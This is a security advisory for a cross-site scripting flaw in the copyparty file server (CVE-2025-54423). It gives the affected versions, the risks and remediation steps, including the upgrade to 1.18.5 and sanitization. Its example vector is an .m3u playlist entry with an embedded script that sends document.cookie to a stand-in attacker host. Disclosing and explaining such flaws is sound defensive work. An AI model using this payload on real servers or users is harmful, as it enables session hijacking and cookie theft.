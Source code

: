 ## Urgent Security Advisory: Critical XSS Vulnerability Discovered in copyparty File Server

A critical security vulnerability has been identified in the **copyparty** file server, posing significant risks to organizations and individuals using this software. This flaw could allow attackers to execute malicious code in a victim's web browser, potentially leading to data theft, unauthorized access, and system compromise. Protecting your digital assets and maintaining user trust requires immediate attention to this vulnerability.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-54423**
*   **Affected Software:** **copyparty** – a portable file server
*   **Affected Versions:** All **copyparty** versions up to and including **1.18.4**.
*   **Technical Cause:** The vulnerability stems from improper sanitization of multimedia tags within certain file types, specifically including `.m3u` playlist files. An unauthenticated attacker can embed arbitrary JavaScript code within these files. When a user accesses or interacts with such a crafted file via **copyparty**, the malicious script executes in their browser. This is a form of Cross-Site Scripting (XSS).
*   **Example Vector:** An attacker could craft a malicious `.m3u` file containing a hidden script:
    ```
    #EXTM3U
    #EXTINF:-1,<script>alert('Malicious Code Executed'); window.location.href='http://attacker.com/steal_cookies?'+document.cookie;</script>Malicious Track
    /path/to/harmless_song.mp3
    ```
    If this file is served by a vulnerable **copyparty** instance and accessed by a user, the embedded JavaScript would run in the user's browser context.

### Risk Description

Exploiting this vulnerability grants an attacker the ability to execute arbitrary JavaScript code within a victim's browser session. This can lead to severe consequences, including:

*   **Session Hijacking:** Stealing user session cookies, allowing the attacker to impersonate the user and gain unauthorized access to their accounts.
*   **Credential Theft:** Displaying fake login forms or redirecting users to phishing sites to steal usernames and passwords.
*   **Malware Delivery:** Forcing the victim's browser to download or execute malicious software.
*   **Data Exfiltration:** Accessing sensitive information displayed or accessible within the victim's browser session.
*   **Defacement:** Altering the appearance of the legitimate web page for phishing or reputational damage.

### Who Is At Risk?

Any individual or organization utilizing **copyparty** as a file server, especially those hosting or sharing multimedia content (such as music or video files), is at immediate risk. If your **copyparty** instance is accessible to untrusted parties or serves user-uploaded content, the risk of exploitation is significantly higher.

### Recommendations

**For copyparty Users and Administrators:**

*   **Immediate Update:** The most critical action is to update your **copyparty** installation immediately to version **1.18.5** or higher. This version contains the patch that remediates this vulnerability.
*   **Review Shared Content:** If possible, review any multimedia files, especially `.m3u` or similar playlist files, that have been uploaded or shared by untrusted sources on your **copyparty** server.
*   **Restrict Access:** As a temporary measure until you can update, consider limiting access to your **copyparty** instance, particularly preventing access by untrusted external users.

**For Developers (of copyparty or similar software):**

*   **Input Sanitization:** This vulnerability highlights the importance of rigorous input validation and sanitization. Always ensure that any user-supplied content, especially data embedded in file metadata or tags, is properly sanitized before being rendered or processed in a web context. Never trust user input.
*   **Content Security Policy (CSP):** Implement or strengthen Content Security Policies to mitigate the impact of potential XSS vulnerabilities by restricting which sources can execute scripts.

### Reference Link

For more detailed technical information and the official commit addressing this vulnerability, please refer to:
[https://github.com/9001/copyparty/commit/895880aeb0be0813ddf732487596633f8f9fc3a6](https://github.com/9001/copyparty/commit/895880aeb0be0813ddf732487596633f8f9fc3a6)